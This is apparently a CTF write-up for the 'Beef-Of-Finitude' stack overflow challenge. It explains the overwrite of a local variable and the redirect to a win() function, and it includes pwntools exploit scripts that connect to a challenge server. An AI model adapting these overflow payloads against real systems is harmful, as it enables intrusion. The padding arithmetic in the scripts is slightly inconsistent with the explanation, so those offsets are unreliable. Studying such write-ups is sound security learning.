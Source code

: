 # Beef-Of-Finitude

To start off, we see a main function which calls function myFun.
   
--> This functions takes in two inputs (strings), one as name and the other as password. 
--> An initial variable say var is defined and is equal to 7. i.e var = 0x7 as seen from line 22 in myFun.
--> The first input and second inputs are 16 bytes long, however, if we look at line 103, we can see a 'push 0x150' command, which suggests that though the size for second input is 16 bytes, its taking 0x150 in total. 
--> This would mean that there is a chance to overflow the buffer to proceed to line 120, where the var value is compared with 0xdeadbeef and as we know var is stored at ebp-0xc as seen from line 22. 
--> Hence to satisfy the condition, we need to overflow the password in a way so that, var = 0xdeadbeef. 

To do that we may use the following code:

from pwn import *
r = remote('challenges.ctfd.io', 30027)

r.recvuntil('Enter your Name:')
r.sendline('shravya')

r.recvuntil('Enter your password:')
r.send('B'*26 + p32(0xdeadbeef))
r.interactive()

Till here we have just overflown the buffer. This allows us into the shell but however to get the flag we may have to call the win() function. 

--> The gdb dump for the win() function is:

   0x08049240 <+10>:	sub    esp,0x12c                                            ; the stack size defined for win function is 0x12c or 300 bytes, whereas that for password input of myFun was 336 bytes. 
   0x08049246 <+16>:	call   0x8049170 <__x86.get_pc_thunk.bx>                    ; which implies that we can overflow the buffer into yet another function, i.e the win() function. To do so, we will first have to fill the above stack with 336-300 = 36 bytes, since the win function accpets 4 arguments, 
   0x0804924b <+21>:	add    ebx,0x2db5                                           ; 
   0x08049251 <+27>:	mov    ecx,DWORD PTR [ebp+0x8]                              ; the following lines determine the 4 arguments to the win() function,
   0x08049254 <+30>:	mov    DWORD PTR [ebp-0x130],ecx                            ; if ((((param_2 | param_1 ^ 0x14b4da55) == 0) && ((param_3 ^ 0x67616c66 | param_4) == 0)))
   0x0804925a <+36>:	mov    ecx,DWORD PTR [ebp+0xc]                              ; thus param_2 = 0; param_1 = 0x14b4da55 and param_3 = 0; param_4 = 0x67616c66
   0x0804925d <+39>:	mov    DWORD PTR [ebp-0x12c],ecx                            
   0x08049263 <+45>:	mov    ecx,DWORD PTR [ebp+0x10]
   0x08049266 <+48>:	mov    DWORD PTR [ebp-0x138],ecx
   0x0804926c <+54>:	mov    ecx,DWORD PTR [ebp+0x14]
   0x0804926f <+57>:	mov    DWORD PTR [ebp-0x134],ecx
   0x08049275 <+63>:	mov    ecx,DWORD PTR [ebp-0x130]
   0x0804927b <+69>:	xor    ecx,0x14b4da55
   0x08049281 <+75>:	mov    esi,ecx
   0x08049283 <+77>:	mov    ecx,DWORD PTR [ebp-0x12c]
   0x08049289 <+83>:	xor    ch,0x0
   0x0804928c <+86>:	mov    edi,ecx
   0x0804928e <+88>:	mov    ecx,edi
   0x08049290 <+90>:	or     ecx,esi
   0x08049292 <+92>:	test   ecx,ecx
   0x08049294 <+94>:	jne    0x80492c0 <win+138>
   0x08049296 <+96>:	mov    ecx,DWORD PTR [ebp-0x138]
   0x0804929c <+102>:	xor    ecx,0x67616c66
   
--> Thus in order to overflow the buffer at the password, and to call the win() function once the right value is compared at ebp-0xc register, we willnhave to:
   a) rewrite ebp-0xc with p32(0xdeadbeef) since that is what it is compared with,
   b) rewrite the return address stored at eip to that of the win function, 
   c) pass arguments of win function, i.e 
   param_1 = p32(0x14b4da55), param_2 = p32(0x0), param_3 = p32(0x67616c66), param_4 = p32(0x0)
   
# python program : (cotinuation)
   
   from pwn import *
   r = remote('challenges.ctfd.io', 30027)

   r.recvuntil('Enter your Name:')
   r.sendline('hi')

   r.recvuntil('Enter your password:')
   r.sendline('B'*26 + p32(0xdeadbeef) + 'B'*12 + p32(0x0804923a) + p32(0x0804923a) + p32(0x14b4da55) + p32(0x0) + p32(0x67616c66) + p32(0x0))

   r.interactive()
   
#Flag: UDCTF{0bl1g4t0ry_buff3r_ov3rflow}
